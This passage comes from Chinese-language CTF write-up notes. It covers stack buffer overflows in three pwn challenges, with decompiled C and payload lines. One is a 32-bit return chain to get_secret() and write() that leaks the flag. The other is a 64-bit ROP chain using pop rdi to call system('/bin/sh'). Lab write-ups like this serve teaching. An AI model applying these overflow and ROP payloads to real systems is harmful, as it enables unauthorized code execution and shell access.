 ```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[45]; // [esp+Fh] [ebp-2Dh] BYREF

  printf("b0r4 v3r s3 7u 4h o b1ch4o m3m0... ");
  gets(v4);
  return 0;
}

int get_secret()
{
  int v0; // esi

  v0 = fopen("flag.txt", &unk_80CF91B);
  fgets(&fl4g, 45, v0);
  return fclose(v0);
}
```

通过String view找到`flag`然后跳转引用到`get_secret()`函数（0x80489a0），此函数将flag内容输出到`&fl4g`（0x80eca2d），所以需要用一个输出函数打印它（一般用`write()`，因为它打印的结束条件只有长度这一参数）；Functions window中搜索有`write()`（0x806e270）

注意这里的`main()`函数开头是没有`push ebp`的，故不需要覆盖ebp

故payload = get_secret（溢出返回） + write（get_secret返回） + 任意（无所谓返回）+ 0 + 1（stdout） + &fl4g + 45（`write(stdout, &fl4g, 45)`）

```python
payload = b'a'*0x2d + p32(0x80489a0) + p32(0x806e270) + p32(0) + p32(1) + p32(0x80eca2d) + p32(45)
```

## [HarekazeCTF2019]baby_rop

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[16]; // [rsp+0h] [rbp-10h] BYREF

  system("echo -n \"What's your name? \"");
  __isoc99_scanf("%s", v4);
  printf("Welcome to the Pwn World, %s!\n", v4);
  return 0;
}
```

简单64位栈溢出；`system()`函数（0x400490）和`"/bin/sh"`（0x601048）都有，注意 64位程序使用寄存器传参，所以需要把栈上参数弹到寄存器上，然后再调用目标函数，也就是`pop rdi; ret`；这条指令据说是有万能地址的（normal/#ciscn_2019_c_1 中是0x400c83，而本题是0x400683，或者使用`next(elf_file.search(asm('pop rdi\nret')))`）

payload = b'a'*0x18 + p64(0x400683) + p64(0x601048) + p64(0x400490)

## jarvisoj_level2_x64

和[\[HarekazeCTF2019\]baby_rop](#[HarekazeCTF2019]baby_rop)没有多大区别，不赘述

